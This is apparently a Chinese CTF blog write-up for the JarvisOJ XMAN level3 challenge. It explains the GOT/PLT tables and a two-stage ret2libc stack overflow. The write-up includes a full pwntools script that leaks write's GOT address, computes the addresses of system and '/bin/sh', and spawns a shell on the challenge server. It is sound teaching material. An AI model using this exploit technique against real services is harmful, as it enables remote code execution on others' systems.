 ```yaml
---
title: JarvisOJ——XMANlevel3题解
date: 2018-08-3 13:54:00
tags:
- CTF
categories:
- CTF
---
```


## 一、GOT表和PLT表  ##


GOT(Global Offset Table)和PLT(Procedure Linkage Table)是Linux系统下面ELF格式的可执行文件中，用于定位全局变量和函数[动态库的]的数据信息.[一开始把GOT表和GDT表看重了，实际上完全不同。GOT+PLT表的目的就是为了在运行时重定位。]

在ELF文件的动态连接机制中，每一个外部定义的符号在全局偏移表 (Global Offset Table，GOT)中有相应的条目，如果符号是函数则在过程连接表(Procedure Linkage Table，PLT)中也有相应的条目，且一个PLT条目对应一个GOT条目。

使用PLT和GOT表的目的就是为了能够动态获取动态链接库中所需函数的地址。如果一个代码调用了非本地的函数，那么就不能单纯靠重定位获得最终地址。因为动态库的加载顺序都不是一定的，无法固定每个动态库中的函数具体位置。因此需要动态获取.so文件的函数地址。

PLT[x]实际上是用于计算[链接器生成一段额外的小代码片段，通过这段代码获取比如printf这样动态库中函数的地址，并完成对它的调用]，GOT用于存储外部函数的具体地址。

[PLT，GOT表的大致原理](https://blog.csdn.net/luojiabin135/article/details/79661868)

利用objdump -h 可执行文件名得到ELF文件的各个节信息。PLT表/节属于代码段，GOT表/节属于数据段

![](/assets/img/obj_gotplt.jpg)


在一些pwn题中，泄漏出的函数地址放在是got表中。为了泄漏这些真正的地址，往往会用到read，write，put等函数，通过已知同时存在于GOT和libc的函数地址，可以得出偏移量，接着就能通过偏移量找到system函数的真正地址，从而进行ret2lib操作[具体在下述实例中演示]。






PLT[0]是一个函数，这个函数的作用是通过GOT[0],GOT[1]和GOT[2]来正确绑定一个函数的真实地址到GOT表中来。而plt[0]代码做的事情则是：由于GOT[2]中存储的是动态链接器的入口地址，所以通过GOT[1]、GOT[0]中的数据作为参数，跳转到GOT[2]所对应的函数入口地址[即动态链接器]，这个动态链接器会将一个函数的真正地址绑定到相应的GOT[x]中。
 
一般是从GOT[3]，开始因为如上所述GOT[0],GOT[1]和GOT[2]有额外用途。中间进行的压栈是为了确定PLT对应的GOT表项，比如push 0x3即是PLT[1]−>GOT[3]. 压栈后我们跳转到PLT[0],接着PLT[0]中的指令会通过这次压栈的序号来确定操作的GOT表项为多少

解析PLT/GOT表的两次解析：https://www.jianshu.com/p/0ac63c3744dd


深入：http://www.360doc.com/content/14/1111/15/19184777_424304443.shtml
http://www.360doc.com/content/14/1111/15/19184777_424303666.shtml


## 解题思路 ##

![checksec查看栈保护机制开启情况](/assets/img/checksec3.jpg)

老样子，用checksec查看，和XMAN level2一样，开启了栈不可执行，但是没有开始栈随机化，故可以使用ret2libc技术。

用IDA查看，可以确定通过read函数输入buf进行溢出，但是并没有看到合适的目标函数。与level2相比，在level3的ELF程序中不在出现system和bin/sh。

![没有合适产生shell的函数](/assets/img/func3.jpg)

但是level3中还提供了libc-2.19.so的动态链接库文件，默认情况下，程序都会自动引入这个库中的函数。用ida对.so文件进行反汇编，可以看到system函数和“/bin/sh”字符串都存在

![找到可产生shell的函数](/assets/img/attack3.jpg)

于是思路：通过read(0,&buf,0x100)[其中0表示标准输入/键盘输入，如果是1则表示标准输出，2表示标准错误输出]，栈溢出ret到system函数，利用参数"/bin/sh"产生shell。

![构造栈帧](/assets/img/ans3.jpg)

### 但是问题在于system的地址如何知道呢？ ###

通过libc.so文件可以得到write、system和/bin/sh的相对.so基址的偏移量

设函数func在内存中地址为func_addr,在libc中偏移为func_libc则有

> 　sys_addr - sys_libc == write_addr - write_libc

所以我们可以通过泄露write函数的地址write_addr，**利用两函数在内存中的地址和libc文件中的偏移的差相等**，获得system的地址

> sys_addr == write_addr  + sys_libc - write_libc = write_addr +△ _ libc



### 构造两次溢出 ###

要利用偏移相等获得system和bin的地址，首先要泄露得到write的真实地址，可以通过打印write在got表中的地址，获取其真实地址。

那么第一次溢出，就是调用write函数[利用write函数写的功能]，打印出write_got[write函数的真实地址]。

利用sysaddr = writeaddr - writelibc + syslibc
以及binaddr = writeaddr - writelibc + binlibc得到system函数和"/bin/sh"的真实地址

第二次溢出，就是再次调用vuln_addr，产生一段缓冲区，提供read栈溢出漏洞，利用system函数和"/bin/sh"产生shell。得到flag。

----------

1.输出write的真实地址——**write(1,write_got,4字节)**

在栈溢出到write函数[利用write_plt间接调用write]打印GOT表中的write真实地址，提供"1，write_got，4"这些产生，1表示标准输出到屏幕，write_got表示GOT表中write地址存储的位置指针，4表示4字节打印长度，write的真实地址4字节大小。
【由于在此前已经调用过vulnerable_function中的write函数，那么PLT_GOT表+动态链接器已经得到了write函数的真实地址，并且存储在GOT表中。所以GOT[x]已更新，不再是对应PLT[x]】

![获取write函数的真实地址](/assets/img/write_addr.jpg)

当write成功调用后退栈时，将ebp+4作为返回地址，这里应当填充vulnerable_function函数的地址，二次溢出，利用read函数的栈溢出漏洞，跳转到system函数+"/bin/sh"产生shell[由于vulnerable_function函数不需要参数，故不会覆盖第一次溢出的参数]。


最终构造的栈帧图为：
[溢出write函数打印write_got+再返回到vuln函数再次执行read，实现二次溢出到system，最终获取shell]

![](/assets/img/level3.jpg)

## 解题步骤 ##

    #!usr/bin/env python
    # encoding:utf-8
    from pwn import *
    
    #io = process("./level3")
    io = remote("pwn2.jarvisoj.com",9879)
    elf = ELF("./level3")  #获取ELF文件头
    
    writeplt = elf.plt["write"]　　　　#plt和got节同.text节一样在ELF程序中都有标识
    writegot = elf.got["write"]   #得到write函数在GOT表和PLT表中的位置指针
    func = elf.symbols["vulnerable_function"] #在符号表中得到vulnerable_function的真实地址
    
    libc = ELF("./libc-2.19.so")  
    writelibc = libc.symbols["write"]　　　　#libc的符号表中找到程序中有的/没有的函数的偏移地址
    syslibc = libc.symbols["system"] 
    binlibc = libc.search("/bin/sh").next() #"/bin/sh"的偏移量
    
    payload1 = 'a' * 0x88 + 'f**k' + p32(writeplt) + p32(func) + p32(1)+p32(writegot)+p32(4)  #溢出地址+返回地址+参数
    
    io.recvuntil("Input:\n")
    io.sendline(payload1)
    
    writeaddr = u32(io.recv(4))　　　　#收到终端/屏幕输出的write真实地址[4字节]。由于python没有指针，不能*write_got，需要将其输出并保存
    sysaddr = writeaddr - writelibc + syslibc　　　　#利用偏移量相等获得其真实地址
    binaddr = writeaddr - writelibc + binlibc
    
    payload2 = 'a' * 0x88 + 'f**k' + p32(sysaddr) + p32(func) + p32(binaddr)  #二次溢出，还是有0x88+0x4的缓冲区
    io.recvuntil("Input:\n")
    io.sendline(payload2)
    io.interactive()
    io.close()


![攻击过程结果](/assets/img/process3.jpg)

## 补充 ##

[libc中的文件IO函数](https://blog.csdn.net/miss_acha/article/details/38274883)


**基于文件描述符**的I/O函数有：**open, close, read, write, getc, getchar, putc, putchar**等。他们**属于系统调用，更接近于硬件**，属于非缓冲文件系统的IO函数。

非缓冲文件系统依赖于操作系统，**通过操作系统的功能对文件进行读写，是系统级的输入输出，它不设文件结构体指针，只能读写二进制文件**[而文本文件不行]，（对于UNIX系统内核而言，文本文件和二进制代码文件并无区别），但效率高、速度快。由于ANSI标准不再包括非缓冲文件系统，因此，在读取正规的文件时，建议大家最好不要选择它。


**基于文件指针**的I/O函数有：**fopen,fclose,fread,fwrite,fgetc,fgets,fputc,fputs,freopen,fseek,ftell,rewind, fprintf等**。他们属于库函数，是对open,write等系统调用的封装，属于缓冲文件系统的I/O函数。

缓冲文件系统是借助于文件结构体指针FILE*来对文件进行管理，
**通过文件指针对文件进行访问，即可以读写字符、字符串、格式化数据，也可以读写二进制数据。**